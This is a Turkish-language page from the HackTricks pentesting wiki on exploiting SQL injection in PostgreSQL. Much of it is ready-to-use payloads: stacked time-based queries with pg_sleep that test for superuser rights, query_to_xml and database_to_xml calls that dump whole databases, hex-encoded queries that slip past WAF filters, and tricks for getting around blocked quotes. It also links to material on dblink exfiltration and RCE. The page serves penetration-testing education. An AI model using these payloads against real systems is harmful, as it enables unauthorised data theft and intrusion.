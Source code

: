 # PostgreSQL injection

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Hacking kariyerine** ilgi duyuyorsanız ve hacklenemez olanı hack etmek istiyorsanız - **işe alıyoruz!** (_akıcı yazılı ve sözlü Lehçe gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Bu sayfa, bir postgresql veritabanında bulunan bir SQL enjeksiyonunu istismar etmenize yardımcı olabilecek farklı ipuçlarını açıklamayı ve** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) **bulabileceğiniz ipuçlarını tamamlamayı amaçlamaktadır.**

## Ağ Etkileşimi - Yetki Yükseltme, Port Tarayıcı, NTLM zorluk yanıtı ifşası & Exfiltration

**PostgreSQL modülü `dblink`**, diğer PostgreSQL örneklerine bağlanma ve TCP bağlantıları gerçekleştirme yetenekleri sunar. Bu özellikler, `COPY FROM` işlevselliği ile birleştirildiğinde, yetki yükseltme, port tarama ve NTLM zorluk yanıtı yakalama gibi eylemleri mümkün kılar. Bu saldırıları gerçekleştirme yöntemleri için [bu saldırıları nasıl gerçekleştireceğinizi](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md) kontrol edin.

### **dblink ve büyük nesneler kullanarak exfiltration örneği**

**Büyük nesnelerin içine veri yükleme ve ardından `dblink_connect` fonksiyonunun kullanıcı adı içindeki büyük nesnelerin içeriğini exfiltrate etme** ile ilgili bir CTF örneğini görmek için [**bu örneği okuyabilirsiniz**](dblink-lo_import-data-exfiltration.md).

## PostgreSQL Saldırıları: Okuma/yazma, RCE, yetki yükseltme

PostgreSQL'den ana makineyi nasıl tehlikeye atacağınızı ve yetkileri nasıl yükselteceğinizi kontrol edin:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF atlatma

### PostgreSQL Dize işlevleri

Dizeleri manipüle etmek, **WAF'leri veya diğer kısıtlamaları atlatmanıza yardımcı olabilir**.\
[**Bu sayfada**](https://www.postgresqltutorial.com/postgresql-string-functions/) **bazı yararlı Dize işlevlerini bulabilirsiniz.**

### Yığın Sorgular

PostgreSQL'in yığın sorguları desteklediğini unutmayın, ancak birçok uygulama yalnızca 1 yanıt beklerken 2 yanıt döndüğünde hata verecektir. Ancak, yine de zaman enjeksiyonu yoluyla yığın sorguları kötüye kullanabilirsiniz:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML hileleri

**query\_to\_xml**

Bu fonksiyon, tüm verileri tek bir dosyada XML formatında döndürecektir. Tek bir satırda çok fazla veri dökmek istiyorsanız idealdir:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Bu fonksiyon, tüm veritabanını yalnızca 1 satırda XML formatında dökecektir (veritabanı çok büyükse dikkatli olun, çünkü bu durum DoS saldırısına veya hatta kendi istemcinize neden olabilir):
```sql
SELECT database_to_xml(true,true,'');
```
### Hex'teki Dize

Eğer **sorguları** **bir dize içinde** geçirebiliyorsanız (örneğin **`query_to_xml`** fonksiyonunu kullanarak). **Dizeyi hex olarak geçmek ve bu şekilde filtreleri atlatmak için convert\_from kullanabilirsiniz:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Yasaklı alıntılar

Eğer yüklemeniz için alıntı kullanamıyorsanız, bunu `CHR` ile aşabilirsiniz. Temel ifadeler için (_karakter birleştirme yalnızca SELECT, INSERT, DELETE gibi temel sorgular için çalışır. Tüm SQL ifadeleri için çalışmaz_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Ya da `$` ile. Bu sorgular aynı sonuçları döndürür:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hackleme kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı Lehçe yazılı ve sözlü gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
